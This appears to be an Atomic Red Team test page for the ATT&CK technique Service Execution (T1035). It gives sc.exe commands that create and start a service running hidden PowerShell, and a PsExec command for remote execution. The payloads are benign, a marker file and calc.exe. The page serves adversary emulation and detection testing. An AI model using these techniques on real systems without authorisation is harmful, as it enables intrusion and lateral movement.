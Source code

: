 # T1035 - Service Execution

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1035)

<blockquote>Adversaries may execute a binary, command, or script via a method that interacts with Windows services, such as the Service Control Manager. This can be done by either creating a new service or modifying an existing service. This technique is the execution used in conjunction with [New Service](https://attack.mitre.org/techniques/T1050) and [Modify Existing Service](https://attack.mitre.org/techniques/T1031) during service persistence or privilege escalation.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execute a Command as a Service](#atomic-test-1---execute-a-command-as-a-service)

- [Atomic Test #2 - Use PsExec to execute a command on a remote host](#atomic-test-2---use-psexec-to-execute-a-command-on-a-remote-host)

<br/>

## Atomic Test #1 - Execute a Command as a Service

Creates a service specifying an aribrary command and executes it. When executing commands such as PowerShell, the
service will report that it did not start correctly even when code executes properly.

Upon successful execution, cmd.exe create a new service using sc.exe create that will start powershell.exe to create a
new file `art-marker.txt`

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| service_name | Name of service to create | string | ARTService|
| executable_command | Command to execute as a service | string | %COMSPEC% /c powershell.exe -nop -w hidden -command New-Item -ItemType File C:&#92;art-marker.txt|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
sc.exe create #{service_name} binPath= #{executable_command}
sc.exe start #{service_name}
sc.exe delete #{service_name}
```

<br/>
<br/>

## Atomic Test #2 - Use PsExec to execute a command on a remote host

Requires having Sysinternals installed, path to sysinternals is one of the input input_arguments
Will run a command on a remote host.

Upon successful execution, powershell will download psexec.exe and spawn calc.exe on a remote endpoint (default:
localhost).

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| psexec_exe | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|
| remote_host | Remote hostname or IP address | string | localhost|

#### Attack Commands: Run with `powershell`!

```powershell
#{psexec_exe} \\#{remote_host} "C:\Windows\System32\calc.exe"
```

#### Dependencies:  Run with `powershell`!

##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{psexec_exe}") { exit 0} else { exit 1} 
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory ("#{psexec_exe}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_exe}" -Force
```

<br/>

